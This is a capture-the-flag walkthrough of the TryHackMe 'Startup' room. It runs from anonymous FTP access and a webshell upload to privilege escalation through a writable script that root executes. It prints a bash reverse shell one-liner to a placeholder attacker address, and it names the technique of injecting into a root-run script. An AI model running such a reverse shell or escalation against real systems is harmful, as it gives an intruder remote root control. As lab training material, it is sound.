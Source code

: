 # Startup CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Startup** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/bsidesgtdav). 
---

scan 

![scan](imgs/scan.png "scan")

![ferox](imgs/ferox.png "ferox")

logging to ftp as anonymous and grabbing 2 files we might got our first user `Maya`

![ftp](imgs/ftp.png "ftp")

![note](imgs/note.png "note")

we see that ftp and webpage look the same so maybe we could upload a webshell via ftp

![web](imgs/web.png "web")

we cant upload without changing directory to ftp first because we have full access to it

![ftpput](imgs/ftpput.png "ftpput")

after accessing the file via webpage we have reverse shell as `www-data`

![wwwdata](imgs/wwwdata.png "wwwdata")

found recipe.txt and we hace answer to first question on tryhackme 

![recipe](imgs/recipe.png "recipe")

found directory incidents with `pcapng` file inside

![incidents](imgs/incidents.png "incidents")

in wireshark we found similar communiaction (somebody using a shell) on tcp port 4444, if we follow the tcp stream we see few commands like `ls`, `cd`, `sudo -l`, `cat /etc/passwd` we see that somebody tried to input password to sudo -l but it didnt worked i tried the same password to login as lennie 

![wire](imgs/wire.png "wire")

and it worked we got user flag 

![user](imgs/user.png "user")

there is scripts directory with `planner.sh` script we cant modify it, but planner.sh uses another script `/etc/print.sh` which we can modify

![planner](imgs/planner.png "planner")

![printb](imgs/printb.png "printb")

the file doesnt show in `/etc/crontab` but will probably be executed as root

we could check by using command

```
ps aux | grep "planner.sh"
```

![psaux](imgs/psaux.png "psaux")

adding simple reverse shell into /etc/print.sh

```
#!/bin/bash
bash -i >& /dev/tcp/10.X.X.X/PORT 0>&1
```
![print](imgs/print.png "print")


we got our shell as root and we can grab the root flag 

![root](imgs/root.png "root")

## MACHINE PWNED
